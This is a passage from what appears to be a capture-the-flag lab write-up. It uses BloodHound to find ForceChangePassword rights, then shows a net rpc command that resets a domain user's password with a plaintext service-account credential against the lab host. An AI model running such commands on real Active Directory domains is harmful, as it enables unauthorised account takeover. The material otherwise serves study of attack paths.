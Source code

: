 Now let’s see the privilege of the user in bloodhound

![image.png](../images/phantom%2021.png)

> As we see we have a Force Change Password on 3 users
> 

So let’s go and change the password of the user Crose

```bash
net rpc password crose -U phantom.vl/'svc_sspr'%'gB6XTcqVP5MlP7Rc' -S 10.10.99.92
```

![image.png](../images/phantom%2022.png)

Now let’s go and validate the password change
